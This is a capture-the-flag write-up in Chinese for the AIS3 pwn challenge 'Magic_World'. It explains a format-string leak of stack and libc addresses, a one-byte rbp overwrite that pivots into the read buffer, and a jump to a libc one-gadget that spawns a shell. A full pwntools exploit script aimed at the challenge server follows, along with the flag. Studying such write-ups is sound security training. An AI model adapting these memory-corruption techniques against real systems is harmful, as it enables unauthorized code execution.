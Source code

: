 ## Magic_World
### solution
題目反編譯如下：
```c
int __cdecl main() {
  int choice; // [rsp+Ch] [rbp-4h]
  do {
    while ( 1 ) {
      puts("================================");
      puts(aMagicWorld);
      puts("================================");
      puts("      1. Regist a spell");
      puts("      2. Try a spell");
      puts("================================");
      __printf_chk(1LL, "Choice: ");
      __isoc99_scanf("%d", &v4);
      if ( choice != 1 )
        break;
      regist();
    }
  } while ( choice != 2 );
  magic();
  return 0;
}

__int64 regist() {
  char buf; // [rsp+0h] [rbp-70h]

  __printf_chk(1LL, "Give me your spell: ");
  read(0, &buf, 0x64uLL);
  __printf_chk(1LL, "Regist: ");
  return __printf_chk(1LL, &buf);
}

ssize_t magic() {
  char buf; // [rsp+0h] [rbp-10h]

  __printf_chk(1LL, "Give me your spell: ");
  return read(0, &buf, 0x11uLL);
}
```
題目可以無限次`regist()`，裏面有0x64個bytes的format string漏洞，但由於binary有開啟FORTIFY SOURCE，無法使用extension的"$"功能，最後可以有一次長度0x11的`read()`，可以overflow 1byte到rbp的最低byte。

題目有給libc因此就先試著leak libc，同時試著把stack位址也leak出來，由於buffer長度夠大，即使不能使用"$"也仍然足以leak出main的rbp(stack)和main的return位址(libc)，都leak出來以後便是思考怎麼控制執行流程。

`magic`內的1 byte overflow可以使`main`的rbp移動到鄰近位址，而return位址固定為rbp+8，利用這點我們可以使rbp落在`magic()`中`read`的buffer上，如此一來就能控制rip，最後則是該怎麼執行shell。

非常地剛好，`magic()` return回`main`之後會先執行`mov eax, 0`才`leave; ret;`，而libc中有constraint是`rax==0`的one gadget
```c
0x46428 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL
```
試著跳到這個gadget就成功拿到shell了。
### script
```python
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

def regist(s):
    r.recvuntil("Choice: ")
    r.sendline("1")
    r.recvuntil("spell: ")
    r.send(s)

def magic(s):
    r.recvuntil("Choice: ")
    r.sendline("2")
    r.recvuntil("spell: ")
    r.send(s)

#r = process("Magic_World")
r = remote("104.199.235.135", 2114)

# leak
regist("%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx#%llx%llx%llx%llx%llx@%llx")
r.recvuntil("#")
main_rbp = int(r.recv(12), 16)
r.recvuntil("@")
libc_addr = int(r.recvuntil("==", drop=True)[:12], 16)
libc = libc_addr - 0x21f45

# overwrite the last byte of rbp
# making rbp = buffer => rip = buffer + 0x8
last_byte = bytes([(main_rbp - 0x30) % 0x100])
payload = b"a"*8 + p64(libc + 0x46428) + last_byte
magic(payload)

r.interactive()

```
### flag
```
AIS3{m1gRatlon_&_b0f_13_Qu1t3_3asY!!!}
```
